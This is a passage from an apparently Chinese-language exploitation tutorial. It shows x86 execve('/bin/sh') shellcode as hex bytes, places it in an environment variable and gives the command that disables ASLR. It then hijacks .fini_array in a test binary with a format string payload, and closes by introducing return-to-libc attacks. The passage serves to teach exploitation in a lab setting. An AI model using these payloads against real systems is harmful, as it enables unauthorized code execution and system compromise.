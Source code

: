 上面的代码主要实现一个基本的shell，编译成机器码后，用objdump抓取出十六进制的代码：

> \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

再将它写入环境变量里：

```
# export   SC='\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
```

然后取这个环境变量的地址：

```
# ./getenv SC
SC if located at 0xbffffee0
```

> 这里再提一提， 记得将测试系统的ASLR（地址空间布局随机化）关闭
> 关闭方法： echo 0 &gt; /proc/sys/kernel/randomize_va_space

Ok, shellcode 已经准备就绪。

### 1.7.2 开始注入shellcode

下面我们利用程序的.fini_array的地址注入shellcode

```
# nm ./fmttest | grep -i fini
08049f0c t __do_global_dtors_aux_fini_array_entry
08048564 T _fini
08048560 T __libc_csu_fini
```

0x08049f0c 是 fini_array的入口地址，我们将返回地址（shellcode的地址）重写到它里面的某个指针，那么程序将会跳到这个位置并执行。只要将入口地址加上4字节，就是这个array第一个指针的位置：

> 08049f0c + 4 = 08049f10

根据图3的魔术计算公式计算所需的格式化字符串，并用shellcode的地址0xbffffee0重写 08049f10 的值。

```
./fmttest `printf "\x12\x9f\x04\x08\x10\x9f\x04\x08"`%.49143x%4\$hn%.16097x%5\$hn
```

成功！

* * *

* * *

 

# 2\. Return to libc 漏洞攻击

这是一种绕过不可执行栈内存保护机制的技术，它使用受控制的ip（指令指针）将执行控制权返回到现有的libc函数。libc是被所有程序使用的无处不在的C函数库，这个库包含像exit()和system()这样的函数，而最令人关注的是system()这个函数，它用于在系统中运行程序。

利用system()，仅构造一个新栈就可以让它调用我们所选择的程序，如/bin/sh。
